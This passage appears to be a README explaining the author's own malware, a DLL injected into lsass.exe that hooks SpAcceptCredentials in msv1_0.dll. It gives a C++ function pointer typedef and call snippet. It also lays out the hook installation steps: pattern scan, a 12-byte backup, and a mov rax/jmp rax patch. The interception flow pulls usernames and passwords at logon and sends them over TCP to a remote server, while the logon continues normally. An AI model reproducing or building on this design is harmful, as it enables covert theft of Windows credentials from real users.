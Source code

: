 **function pointer type definition:**
```cpp
using _SpAcceptCredentials = NTSTATUS(NTAPI *)(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials);
```

**why this works:**
- **same signature**: our hook and original have identical signatures
- **same calling convention**: both use `NTAPI` (`__stdcall` on x64)
- **parameter compatibility**: same parameter types and order

**usage:**
```cpp
// can't call raw address:
addressOfSpAcceptCredentials(params); // error!

// can call function pointer:
originalSpAcceptCredentials(params); // works!
```

## complete execution flow

### 1. dll injection phase
```
dll injected into lsass.exe
↓
dllmain(dll_process_attach) called
↓
installspaccecptedcredentialshook() called
```

### 2. hook installation phase
```
getmodulehandlea("msv1_0.dll")
↓
parse pe headers for sizeofimage
↓
scan for spacceptcredentials pattern
↓
calculate function entry point (pattern - 16)
↓
backup original 12 bytes
↓
build hook assembly (mov rax, <hook>; jmp rax)
↓
write hook to function entry point
```

### 3. credential interception phase
```
user attempts interactive logon
↓
windows calls spacceptcredentials
↓
our hook executes instead
↓
extract username and password from parameters
↓
send credentials via tcp to remote server
↓
temporarily restore original function
↓
call original spacceptcredentials
↓
user logs in successfully
```